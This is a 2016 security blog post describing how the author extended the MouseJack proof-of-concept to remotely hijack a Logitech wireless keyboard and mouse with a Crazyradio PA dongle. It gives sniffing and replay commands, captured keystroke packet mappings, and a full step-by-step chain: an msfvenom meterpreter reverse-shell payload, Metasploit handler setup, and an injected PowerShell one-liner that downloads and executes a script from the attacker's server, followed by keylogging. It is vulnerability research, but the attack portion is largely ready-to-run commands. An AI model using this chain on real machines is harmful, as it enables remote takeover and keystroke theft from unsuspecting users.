 ```yaml
---
layout: post
title: "Hijacking wireless mice and keyboards"
date: 2016-07-09 14:40:38 +0300
comments: true
categories: [radio]
---
```

Earlier this year researchers from <a href="https://www.bastille.net/" target="_blank">**Bastille**</a> discovered vulnerabilities in wireless mice and keyboards that could lead to them being remotely hijacked from as far as 225 meters away. They have a dedicated site detailing the vulnerabilities dubbed <a href="https://www.mousejack.com/" target="_blank">**mousejack**</a>. They also released POC code which I have built on to implement a remote takeover of a machine using a wireless mouse/keyboard.
<!--more-->

I already had in my possesion the Logitech Wireless Combo MK220 which consists of a K220 wireless keyboard and an M150 wireless mouse which I used as my test devices. 

{% img /images/mk220.jpg %}

I used the <a href="https://www.bitcraze.io/crazyradio-pa/" target="_blank">**Crazyradio PA long range open USB radio dongle**</a> as the attack device.
The original mousejack POC code is available on <a href=" https://github.com/RFStorm/mousejack" target="_blank">**Github**</a> with instructions on how to flash the firmware necessary to perform the attack. I therefore set up both my machine and the Crazyradio PA dongle as described in their POC and tested the functionality they had provided.

{% img /images/CrazyRadioSide.jpg %}

I was then able to scan and sniff the packets transmitted by the mouse/keyboard using the **nrf24-scanner.py** and the **nrf24-sniffer.py** scripts. However, I was more interested in hijacking the mouse/keyboard and controlling the machine remotely. I therefore extended the POC to serve my purposes.

First, I modified the **nrf24-sniffer.py** code to log the sniiffed packets to a user specified output file.  

###Sniff packets from address 8C:D3:0F:3E:B4 on all channels and save them to output.log
`./nrf24-sniffer.py --lna -a 8C:D3:0F:3E:B4 -o output.log`

Next, I wrote a new python script **nrf24-replay.py** that would transmit packets read from a log file. 
This would replay captured packets or transmit generated ones and follow the wireless USB dongle as it hopped through the channels.

###Send packets from the file keystroke.log to address 8C:D3:0F:3E:B4 on a hopping channel
`./nrf24-replay.py --lna -a 8C:D3:0F:3E:B4 -v -t 10 -i keystroke.log`

With this in place I could now begin the hijack phase.
The first thing was to capture and study different key presses and interesting key combinations. From there I created mappings of the key presses to their corresponding packets. A sample of the digit mappings looks like this:

`1	B4:D3:68:62:72:7D:CC:4B:C4:DD:F5:DE:EB:F3:00:00:00:00:00:00:00:57`  
`2	00:D3:C1:1E:FE:28:B4:AB:8B:34:F5:DE:EB:F5:00:00:00:00:00:00:00:57`  
`3	00:D3:8B:94:36:32:63:B0:7D:82:F5:DE:EB:F7:00:00:00:00:00:00:00:DF`  
`4	00:D3:F6:E7:3C:36:52:67:28:1E:F5:DE:EB:F9:00:00:00:00:00:00:00:28`  
`5	00:D3:46:06:1E:DB:58:93:57:03:F5:DE:EB:FB:00:00:00:00:00:00:00:EA`  
`6	00:D3:BC:9B:18:BA:EE:93:6D:3C:F5:DE:EB:FD:00:00:00:00:00:00:00:1F`  
`7	00:D3:47:7D:FC:44:55:5E:E4:78:F5:DE:EB:FF:00:00:00:00:00:00:00:5D`  
`8	00:D3:BE:11:A7:CC:9D:75:7A:A5:F5:DE:EC:01:00:00:00:00:00:00:00:FA`  
`9	00:D3:A1:E6:E7:E1:DC:6C:70:31:F5:DE:EC:03:00:00:00:00:00:00:00:33`  
`0	00:D3:C5:01:FC:0A:F0:6C:B7:6D:F5:DE:EC:05:00:00:00:00:00:00:00:1D`  

I also did the same for useful key combinations such as ALT-F2, ALT-F4 and so on.  
I then wrote a python script called **keymapper.py** that would create a log file of packets of the corresponding key presses.

Now I could generate packets and save them to a log file and then wirelessly hijack the mouse/keyboard and perform various operations on the target machine.

Powershell is becoming one of the mot effective avenues of attacking a Windows machine. I therefore used the following aproach to accomplish the full hijack of a target machine:

- Generate and host a powershell payload on the attack server  
`msfvenom -p windows/meterpreter/reverse_tcp lhost=ip lport=port -f psh-cmd -o update.ps1`

- Start a metasploit listener on our attack server  
`msfconsole`  
`use exploit/multi/handler`  
`set LHOST IP`  
`set LPORT PORT`  
`set PAYLOAD windows/meterpreter/reverse_tcp`  
`exploit -j`  

- Translate our powershell one liner to the corresponding packets using the keymapper.py script  
```
./keymapper.py
powershell "iex (new-object net.webclient).downloadstring('http://IP/update.ps1')"
```
- Hijack the target's wireless mouse/keyboard and wait for their machine to connect back to the attack server
`./nrf24-replay.py --lna -a 8C:D3:0F:3E:B4 -i shell.log -t 10`  

- Perform post exploitation on the target machine

I have uploaded the POC code <a href="https://github.com/iamckn/mousejack_transmit" target="_blank">**here**</a> on Github.

A POC video of the hijack described can be found below where I take over a Windows 7 machine and perform keylogging post-exploitation.  

[![IMAGE ALT TEXT HERE](http://img.youtube.com/vi/YLzUeK1IvJs/0.jpg)](http://www.youtube.com/watch?v=YLzUeK1IvJs)

Further research on different wireless mice/keyboards is ongoing, more so on the packet composition and encryption. 

Till next time, happy hacking! 